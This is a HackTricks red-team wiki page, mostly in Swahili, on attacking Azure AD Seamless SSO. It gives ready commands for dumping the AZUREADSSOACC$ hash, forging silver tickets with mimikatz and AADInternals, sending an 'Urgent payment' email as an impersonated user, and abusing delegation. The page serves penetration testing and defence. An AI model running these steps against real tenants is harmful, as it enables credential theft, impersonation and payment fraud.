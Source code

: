 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) kiotomatiki **inasaini watumiaji wanapokuwa kwenye vifaa vyao vya kampuni** vilivyounganishwa na mtandao wa kampuni yako. Wakati imewezeshwa, **watumiaji hawahitaji kuandika nywila zao kuingia kwenye Azure AD**, na kawaida, hata kuandika majina yao ya mtumiaji. Kipengele hiki kinawapa watumiaji wako ufikiaji rahisi wa programu zako za msingi wa wingu bila kuhitaji vipengele vyovyote vya ziada vya ndani.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Kimsingi Azure AD Seamless SSO **inasaini watumiaji** wanapokuwa **kwenye PC iliyounganishwa na kikoa cha ndani**.

Inasaidiwa na [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) na [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO inatumia **Kerberos** kwa uthibitisho. Wakati imewekwa, Azure AD Connect inaunda **akaunti ya kompyuta inayoitwa AZUREADSSOACC`$`** katika AD ya ndani. Nywila ya akaunti ya `AZUREADSSOACC$` **inatumwa kama maandiko wazi kwa Azure AD** wakati wa usanidi.

**Tiketi za Kerberos** **zimefungwa** kwa kutumia **NTHash (MD4)** ya nywila na Azure AD inatumia nywila iliyotumwa kufungua tiketi hizo.

**Azure AD** inatoa **kiungo** (https://autologon.microsoftazuread-sso.com) ambacho kinakubali **tiketi** za Kerberos. Kivinjari cha mashine iliyounganishwa na kikoa kinapeleka tiketi hizi kwa kiungo hiki kwa SSO.

### On-prem -> cloud

**Nywila** ya mtumiaji **`AZUREADSSOACC$` haitabadilika kamwe**. Hivyo, msimamizi wa kikoa anaweza kuathiri **hash ya akaunti hii**, na kisha kuitumia **kuunda tiketi za fedha** kuungana na Azure na **mtumiaji yeyote wa ndani aliyeunganishwa**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Na hash unaweza sasa **kuunda tiketi za fedha**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Kanzisha kivinjari:** Mozilla Firefox inapaswa kuzinduliwa.
2. **Sanidi kivinjari:**
* Tembelea **`about:config`**.
* Weka upendeleo wa [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) kwa [thamani](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) zilizotajwa:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Fikia Programu ya Mtandao:**
* Tembelea programu ya mtandao ambayo imeunganishwa na eneo la AAD la shirika. Mfano maarufu ni [Office 365](https://portal.office.com/).
4. **Mchakato wa Uthibitishaji:**
* Katika skrini ya kuingia, jina la mtumiaji linapaswa kuingizwa, huku uwanja wa nywila ukiwa tupu.
* Ili kuendelea, bonyeza TAB au ENTER.

{% hint style="success" %}
Hii haipuuzi MFA ikiwa imewezeshwa
{% endhint %}

#### Chaguo la 2 bila dcsync - SeamlessPass

Pia inawezekana kufanya shambulio hili **bila shambulio la dcsync** ili kuwa na siri zaidi kama [ilivyoelezwa katika chapisho hili la blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Kwa hiyo unahitaji tu moja ya yafuatayo:

* **TGT ya mtumiaji aliyeathiriwa:** Hata kama huna moja lakini mtumiaji ameathiriwa, unaweza kupata moja kwa kutumia hila ya uwakilishi wa TGT bandia iliyotekelezwa katika zana nyingi kama [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) na [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Tiketi ya Dhahabu**: Ikiwa una ufunguo wa KRBTGT, unaweza kuunda TGT unayohitaji kwa mtumiaji aliyeathiriwa.
* **Hash ya NTLM ya mtumiaji aliyeathiriwa au ufunguo wa AES:** SeamlessPass itawasiliana na kidhibiti cha eneo na habari hii ili kuunda TGT.
* **Hash ya NTLM ya akaunti ya AZUREADSSOACC$ au ufunguo wa AES:** Kwa habari hii na Kitambulisho cha Usalama wa mtumiaji (SID) ili kushambulia inawezekana kuunda tiketi ya huduma na kuthibitisha na wingu (kama ilivyofanywa katika njia ya awali).

Hatimaye, kwa TGT inawezekana kutumia zana [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) na:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Taarifa zaidi za kuweka Firefox kufanya kazi na seamless SSO zinaweza [**kupatikana katika chapisho hili la blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Kuunda tiketi za Kerberos kwa watumiaji wa wingu pekee~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ikiwa wasimamizi wa Active Directory wana ufikiaji wa Azure AD Connect, wanaweza **kweka SID kwa mtumiaji yeyote wa wingu**. Kwa njia hii tiketi za Kerberos **zinaweza kuundwa pia kwa watumiaji wa wingu pekee**. Sharti pekee ni kwamba SID iwe [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) sahihi.

{% hint style="danger" %}
Kubadilisha SID ya watumiaji wa admin wa wingu pekee sasa **kumezuiwa na Microsoft**.\
Kwa maelezo zaidi angalia [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wingu kupitia Uwakilishi wa Rasilimali ulio na Mipaka <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Mtu yeyote anayeweza kusimamia akaunti za kompyuta (`AZUREADSSOACC$`) katika kontena au OU ambayo akaunti hii iko ndani yake, anaweza **kuunda uwakilishi wa rasilimali ulio na mipaka juu ya akaunti na kuufikia**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Niko kwenye wingu lako, nikisoma barua pepe za kila mtu - kuingilia Azure AD kupitia Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za kuingilia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
